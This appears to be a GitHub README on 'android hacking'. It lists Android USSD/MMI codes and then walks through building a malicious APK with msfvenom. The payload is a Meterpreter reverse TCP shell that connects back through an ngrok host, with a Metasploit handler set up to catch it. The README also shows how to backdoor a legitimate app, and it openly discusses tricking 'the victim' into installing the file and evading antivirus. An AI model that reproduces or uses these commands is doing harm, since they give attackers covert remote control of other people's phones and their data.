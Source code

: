 # android-hacking



# ANDROID TECHNOLOGY

## TERMINOLOGY

- USSD

```bash
# Unstructured Supplementary Service Data)
- Used by GSM,smartphones... Used to communicate with mobile operator network
- Hep to access some phone features
```

- MMI code
```bash
# Man-Machine Interface code,
- A string of numbers or letters that instructs your device to carry out certain tasks
```

- GSM 
```bash
# Global System for Mobile Communications)
```

- IMEI
```bash
# International Mobile Equipment Identity
```

# USSD codes

- [USSD codes](https://www.maketecheasier.com/android-ussd-secret-security-codes/)
- `*#06#` Used to Get IMEI number of your device 
- `*#07#` Check SAR level # Specific absorption rate (`1.6W/kg`)
- `*#*#225#*#*` Display calenda storage data
- `*#*#4636#*#*` View Smartphone Battery, WLAN, and Other Inf
- `*31#` Turn Off Caller ID-- Enable/disable outgoing caller ID
- `*43#` Enable call waiting service. `#43#` To disable
-  `*#67#` Check Call Forwarding
-  `*57` Activate call tracing service
-  `**21*NUMBER#` Call forward code
-  `##002#` Call forward erasal code

- [x] Below codes not yet tested
- `*#*#1472365#*#*` GPS System check (strength and efficiency)
- `*#*#2664#*#*` Touch screen Test
- `#*#232339#*#*` Test Wi-Fi
- `*#*#197328640#*#*` Enable service mode
- `*#*#4986*2650468#*#*` View firmware Information
- ` *#*#34971539#*#*` View Camera Information
-  `*#3282*727336*#` Check Storage and System Details



## Using malicios APK file

1. Getting public ip with ngrok
          
           ./ngrok tcp 1234
           
2. Generating with msfvenom  
         
          msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=12126 R > malicious.apk
3. Using msfconsole to listen to the connection from our payload
    
       use exploit/multi/handler
       set payload android/meterpreter/reverse_tcp
   
   Then
   
      `Now we need to send the apk to the victim and getting them to install and launch`
      
 #### Disadvantages of this method
 
  1. Requires either access to the victim’s phone or social engineering to get the victim to install and launch the malicious apk.
  2. The generated apk file does not look legitimate. It’s only a few KBs and doesn’t do anything when clicked on. The victim might either uninstall it right away or not install it at all.
  3. Might require a lot of time and effort to make the apk file look realistic i.e. changing the logo, adding some functionality.
  4. Such an apk file is easily classified as dangerous by any anti-virus installed on the victim’s phone.
  5. Numerous warnings from the mobile device and Google Play Store that installing apps from unknown sources is dangerous. This might deter the victim from proceeding.
  6. The connection we get back is not persistent. Once the phone reboots, loses internet connection, or the user clears all the running apps in the background, we lose our connection and the only way to get it back again is if the user clicks on the app icon again.
  
  ## Injecting a Malicious Payload on a Legitimate Android App
  
   * you can download legitimate apk files. Kindly note that not all apk files can easily be exploited in this way. Some of them have protections in place
    Then 
    
        msfvenom -x CameraSample.apk -p android/meterpreter/reverse_tcp LHOST=2.tcp.ngrok.io LPORT=12492 -o CameraSample_backdoored.apk
    
